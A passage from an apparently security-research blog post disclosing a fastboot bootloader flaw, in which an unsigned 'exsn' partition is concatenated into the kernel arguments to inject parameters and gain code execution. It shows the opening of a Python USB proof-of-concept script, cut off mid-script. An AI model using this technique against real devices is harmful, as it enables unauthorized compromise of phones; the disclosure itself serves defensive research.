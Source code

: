 Contents of an unsigned “partition” named 

exsn

`exsn`

are concatenated to the kernel argument list. By flashing this

exsn

`exsn`

partition, it’s possible to inject arbitrary kernel arguments, resulting in arbitrary code execution.

Fastboot flashing handler function, first checks if we’re trying to flash a special partition:

[![](https://blog.stmcyber.com/wp-content/uploads/2023/09/545b8f39-b884-4ade-a768-4560fda57d83-1.png)](https://blog.stmcyber.com/wp-content/uploads/2023/09/545b8f39-b884-4ade-a768-4560fda57d83-1.png)

The value of

exsn

`exsn`

is passed in to kernel. Since

exsn

`exsn`

can be changed to any value, including one with spaces, it possible to inject any kernel parameters.

[![](https://blog.stmcyber.com/wp-content/uploads/2023/09/33cbd702-0b7d-414f-aeac-a6e29979170c.png)](https://blog.stmcyber.com/wp-content/uploads/2023/09/33cbd702-0b7d-414f-aeac-a6e29979170c.png)

Attached below is PoC script, which chains kernel parameter injection with custom initroot executed from fastboot buffer (technique explained in depth [here](https://alephsecurity.com/2017/08/30/untethered-initroot/)).

from contextlib import contextmanager

from usb1 import USBContext, USBError, USBDeviceHandle

# these 4 values may need to be changed on per-product basis:

# we assume this will be used only after open_fastboot

g_handle: USBDeviceHandle = None # type: ignore

def send(bytez: bytes) -> None:

print(f"Sending {len(bytez)} {bytez[:0x18]}...")

g_handle.bulkWrite(ep_out, bytez)

def recv(count: int = 512) -> bytes:
